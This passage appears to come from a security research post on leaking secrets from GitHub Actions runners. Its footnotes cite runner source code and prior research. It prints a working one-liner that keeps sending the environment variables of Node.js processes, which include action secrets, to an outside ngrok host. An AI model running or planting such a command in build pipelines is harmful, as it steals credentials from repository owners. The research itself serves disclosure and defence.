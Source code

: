 Unlike with shell actions, _Runner.Worker_ doesn't hardcode secrets into JavaScript actions. JavaScript actions instead receive input values through environment variables—passed into the Node.js process. To expose those secrets, we asynchronously read the environment variables of future Node.js processes:

```sh
while true; do curl -s 'https://4ddc-91-197-46-143.ngrok.io' -H "Content-Type: text/plain" -d "$(ps axe | grep node)" -o /dev/null; done &
```

![Screenshot of the dumped environment variables. "INPUT_EXAMPLE_ARGUMENT_1=SECRET VALUE" is highlighted.](/images/github-actions-leaking-secrets/fKOEN2u.png)

We have now made progress: we can leak secrets of shell and JavaScript actions, not just secrets referenced in environment variables. These techniques have been similarly documented by Alex Ilgayev from Cycode.[^5]


[^1]: Jobs can be configured to run synchronously, but they will still run on separate machines.
[^2]: The API key is hex-encoded using xxd because GitHub Actions automatically censors secret values from build logs. The censorship is nevertheless a good feature for users. In 2019, [others and I showed](https://edoverflow.com/2019/ci-knew-there-would-be-bugs-here/) that builds logs on Travis CI, another CI/CD solution, were exposing sensitive information due to lax censorship.
[^3]: The decryption may differ per the runner's configuration and operating system. [Lines 354-372 of `src/Runner.Listener/MessageListener.cs`](https://github.com/actions/runner/blob/caec043085990710070108f375cd0aeab45e1017/src/Runner.Listener/MessageListener.cs#L354-L372) include the decryption code.
[^4]: I am exfiltrating values to an HTTP ngrok instance. ngrok is an ingress tool useful for exposing local ports.
[^5]: You can read Alex's analysis of GitHub Actions command injection at [https://cycode.com/github-actions-vulnerabilities/](https://cycode.com/github-actions-vulnerabilities/)
[^6]: Shell actions can also have `if` conditions. But that doesn't matter for our purposes: the expanded `.sh` file will still contain the secrets, even when the process never runs.
[^7]: The usage of the GitHub token to download JavaScript actions can be found on [line 798 of `src/Runner.Worker/ActionManager.cs`](https://github.com/actions/runner/blob/caec043085990710070108f375cd0aeab45e1017/src/Runner.Worker/ActionManager.cs#L798).
[^8]: The token expires shortly after the job finishes, so a hacker must automate their exploit against the repository.